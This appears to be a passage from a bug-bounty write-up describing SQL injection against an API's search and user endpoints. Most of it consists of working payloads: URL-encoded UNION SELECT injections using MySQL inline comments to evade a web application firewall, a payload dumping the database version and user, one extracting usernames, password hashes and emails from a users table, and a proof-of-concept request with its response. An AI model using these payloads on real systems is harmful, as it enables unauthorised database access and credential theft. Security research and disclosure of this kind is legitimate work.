 Here’s what started working:

```js
/api/v1/search?query=%27UNION%0ASELECT%201,2,3--
```

Even better:

```js
/api/v1/search?query=%df%27%20OR%201=1--
```

I went deeper. Payloads that triggered internal server errors gave clues about backend DB structure. Then I tried this:

```js
/api/v1/search?query=%27%20/**/UNION/**/SELECT/**/1,2,3--+
```

And BAM! A different error.

**Finally, I used:**

```js
/api/v1/search?query=1%27%20/*!50000UNION*/%20/*!50000SELECT*/%201,@@version,user()--+
```

Result: Database version and user were dumped in the response.

###  Data Exposure Time

I explored further using WAF-friendly payloads:

```js
/api/v1/user?id=1%27%20/*!50000UNION*/%20/*!50000SELECT*/%201,username,password,email/**/FROM/**/users--+
```

Results:

- Usernames
- Password hashes (weakly hashed too)
- Emails, tokens

# 💣 Real Proof of Concept

Request:

```js
GET /api/v1/search?query=1%27/*!50000UNION*/SELECT*/1,@@version,user()--+  
Host: api.bountyheaven.com

```

Response:

```http
{  
  "result": [  
    "5.7.34-log",  
    "dbadmin@localhost"  
  ]  
}
```
